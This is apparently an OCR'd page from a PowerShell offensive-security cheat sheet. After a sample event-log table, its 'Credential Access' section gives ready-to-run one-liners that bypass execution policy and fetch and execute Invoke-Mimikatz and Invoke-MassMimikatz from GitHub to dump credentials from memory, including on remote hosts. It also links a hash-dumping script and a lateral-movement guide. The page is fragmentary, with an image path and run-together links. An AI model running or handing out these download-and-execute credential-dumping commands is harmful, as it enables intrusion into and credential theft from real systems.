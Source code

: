 Expected output

```
Max(K) Retain OverflowAction        Entries Log
------ ------ --------------        ------- ---
15,168      0 OverwriteAsNeeded           0 Application
15,168      0 OverwriteAsNeeded           0 DFS Replication
512         7 OverwriteOlder              0 DxStudio
20,480      0 OverwriteAsNeeded           0 Hardware Events
512         7 OverwriteOlder              0 Internet Explorer
20,480      0 OverwriteAsNeeded           0 Key Management Service
16,384      0 OverwriteAsNeeded           0 Microsoft Office Diagnostics
16,384      0 OverwriteAsNeeded           0 Microsoft Office Sessions
30,016      0 OverwriteAsNeeded           1 Security
15,168      0 OverwriteAsNeeded           2 System
15,360      0 OverwriteAsNeeded           0 Windows PowerShell

```

# Credential Access
## Mimikatz


```
# Invoke-Mimikatz: Dump credentials from memory

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

# Import Mimikatz Module to run further commands

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

## Dump Hashes

Dump hashes if you have admin privilege

https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1Check this

https://cheats.philkeeble.com/active-directory/lateral-movement# Collection
